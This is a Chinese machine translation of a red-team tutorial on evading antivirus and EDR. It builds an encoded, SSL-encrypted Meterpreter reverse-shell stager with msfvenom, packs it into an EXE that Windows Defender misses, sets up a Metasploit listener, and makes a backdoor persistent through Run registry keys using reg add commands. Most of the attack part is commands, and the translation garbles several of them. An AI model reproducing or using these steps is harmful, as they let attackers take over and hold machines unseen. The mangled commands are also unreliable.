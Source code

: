 # 通过外壳代码注入规避 EDR，并使用注册表运行键获得持久性

> 原文：<https://infosecwriteups.com/evade-avs-edr-with-shellcode-injection-159dde4dba1a?source=collection_archive---------0----------------------->

在内部网络中获得立足点可能具有挑战性，因为 AV 和 Defender 使这变得更加困难。现代 Windows 版本已经采取了一些缓解措施，防止外壳代码正常运行。该问题是由外壳代码需要 RWX 内存这一事实引起的，该内存在执行外壳代码时被标记。

外壳代码注入在 Pentesting 期间可能对 APT 或 Red Teamers 非常有帮助，因为他们会注入恶意 EXE 并将进程迁移到 EDR 信任的 EXE 中。一点可疑的行为都没有！

# 加密 C2 通信

不建议通过未加密的隧道传输数据，最好替换 Metasploit 在生成 stager 时使用的默认 SSL，这样 stager 和 C2 框架之间的通信是加密的。我们可以为 C2 服务器端创建一个私有 RSA 密钥和一个服务器证书。

> OpenSSL req-new-new key RSA:4096-days 365-nodes-x509-key out RSA private . key-out server certificate . CRT

![](img/23a45fe03f7074d1fb90efc192823b5e.png)

然后将它们合并到一个. pem 文件中，我们就创建了一个串联证书。

> cat RSA private . key server certificate . CRT > my . PEM

# 生成编码外壳代码

使用证书生成 Metasploit stager，并使用 ***shikata_ga_nai*** 进行几乎混淆，以实现多态 XOR 加法反馈编码器。

> MSF venom-p windows/meter preter/reverse _ winhttps LHOST = 192 . 168 . 1 . 46 LPORT = 8888—平台 windows -a x86 HandlerSSLCert=。/my . PEM StagerVerifySSLCert = true-s 42-small-e x86/shikata _ ga _ nai-I 9-f raw | MSF venom-platform windows-a x86-e x86/call 4 _ dword _ xor-I 6-b " \ x00 \ x0a \ x0d "-f raw > shellcode . raw

![](img/1005d8a9fcde94779e369ae0b1ba4696.png)

9 次迭代编码外壳代码

一旦 shellcode 生成成功，我们会将其打包成 EXE。

# 打包外壳代码

有一个开源工具叫做[shecodnjet](https://github.com/TaroballzChen/shecodject)，它可以很好地将我们生成的外壳代码打包成 EXE。使用 python3 作为根用户打开工具:

> sudo python3 shecodnject.py

加载 scc 模块，设置我们之前生成的 shellcode.raw 文件，并运行该模块来读取文件中的 shellcode。

> scc
> 设置 source/set/location/to/shellcode . raw
> 运行

![](img/bc6a09d36d110351dbaef70c6b8edd15.png)

通过键入 **back** 退出模块。现在工具已经读取了外壳代码，我们将把它打包成一个 EXE 文件，因此请逐个输入以下命令:

> exe
> 设置 noconsole False
> 运行

打包的过程需要一段时间。完成后，输出将保存在 shecodeject 文件夹内的/output 中

EXE 生成并准备躲避现代 EDRs 和 Windows Defender。让我们测试它是否被 Windows Defender 检测到:

![](img/dd137a094f3593fa055d8641932e6ccf.png)

绕过 Windows Defender

它被绕过，根本没有检测到。现在是时候在 Metasploit 中设置一个监听器了，希望得到一个 shell:

> msfconsole -q -x '使用 exploit/multi/handler；将 ExitOnSession 设置为 false 设置有效负载 windows/meter preter/reverse _ winhttps；设置 LHOST 192 . 168 . 1 . 46；设置 LPORT 8888set handlers slcert/home/nade/Desktop/my . PEM；将 StagerVerifySSLCert 设置为 true 设置 sessioncommunicationtime out 600；运行-j -z '

![](img/e47ed263866c21ed5e4b3d19aa0a1a90.png)

为了便于统计，这是在各种 AVs 中扫描时的检测率:

![](img/07792ac861162b4a6c72d8677751ee26.png)

# 使用注册表运行键获得持久性

对于持久性，我们将把我们的后门注入到注册表运行键中。幸运的是，Metasploit 有一个针对这种端口利用的模块。该模块需要以下配置，并将可执行文件放在受损系统的可写位置。在这种情况下，我们将上传我们的后门程序，它与我们在目标机器上用来获取(在我们的本地机器上我称它为**fin.exe**)的后台程序是同一个后台程序- > **C:\tmp\fin.exe**

首先，我们上传 fin.exe 在 **C:\tmp**

![](img/c65a0c43edeeee65c1bca496d9d5d6fb.png)

`use post/windows/manage/persistence_exe
set REXEPATH /home/nade/Desktop/fin.exe
set REXENAME fin.exe
set SESSION 2
set STARTUP USER
set LOCALEXEPATH C:\\tmp
run`

![](img/9ee143010adbb25c2001e7d567a3b3a4.png)

下次用户登录系统时，将会打开一个新的 Meterpreter 会话(将会弹出一个黑色的 cmd 屏幕，执行后门程序，然后自动关闭)。

# 以手工方式获得持久性

或者，您可以使用这些命令手动添加这 4 个注册表运行键，这样我们的后门**fin.exe**将被注入。在演示中，我添加了一个随机值**not virus**，但是你知道，你不想让它那样。在使用注册表之前，确保在目标系统中上传后门程序(在我的例子中是: **C:\tmp\fin.exe** )。

```
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v NotAVirus /t REG_SZ /d "C:\tmp\fin.exe"

reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v NotAVirus /t REG_SZ /d "C:\tmp\fin.exe"

reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v NotAVirus /t REG_SZ /d "C:\tmp\fin.exe"

reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v NotAVirus /t REG_SZ /d "C:\tmp\fin.exe"
```